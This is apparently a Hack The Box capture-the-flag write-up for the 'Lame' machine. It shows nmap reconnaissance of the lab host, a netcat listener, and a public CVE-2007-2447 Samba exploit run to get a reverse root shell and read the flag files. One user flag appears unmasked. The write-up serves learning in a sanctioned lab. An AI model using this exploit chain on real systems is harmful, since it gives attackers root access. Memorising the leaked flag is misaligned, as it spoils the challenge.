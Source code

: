 ```yaml
---
date: 2024-11-06
language: english
noteType: area
skills: "nmap, netcat"
status: draft
tags: [hackthebox, writeup]
title: Lame Write-Up
---
```


# Lame Write-Up

![Lame Overview](./lame-overview.png)

Lame is a very basic machine from the [Beginner Track](https://app.hackthebox.com/tracks/Beginner-Track) track to start getting familiar with the main tools of pentesting.

<!-- truncate -->

## Recon

### nmap

nmap finds four open TCP ports, FTP (21), SSH (22), old SMB (139), SMB (445):

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:05 CET
Nmap scan report for 10.129.143.253
Host is up (0.048s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash
nmap -p 21,22,139,445 -sV -sC -oN nmap/services_version 10.129.143.253
Starting Nmap 7.95 ( https://nmap.org ) at 2024-11-06 20:16 CET
Nmap scan report for 10.129.143.253
Host is up (0.046s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.10.14.129
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m38s, deviation: 3h32m10s, median: 36s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-11-06T14:17:14-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.82 seconds
```

### SMB

Looing the samba version I found [this](https://github.com/amriunix/CVE-2007-2447). So following the Python script I did the following.

- Open my netcat and type:

```bash
nc -lvnp 1234
```

- Execute GitHub exploit to get the root shell:

```bash
python3 usermap_script.py 10.129.143.253 139 10.10.14.129 1234
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

- Got shell:

```
nc -lvnp 1234
Connection from 10.129.143.253:41195
whoami
root
```

- Get the normal user and root flags:

```
ls home
ftp
makis
service
user
cd /home/makis
ls
user.txt
cat user.txt
f7da385424028604c99dd9ff8bb5a6b3
f7dXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
cd /root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
cat root.txt
618XXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

And the machine is pwned! ;)

## References

- ch4p. (2017, March 14). <span class="reference-title">Lame</span>. _HTB Labs_. [https://app.hackthebox.com/machines/1](https://app.hackthebox.com/machines/1)
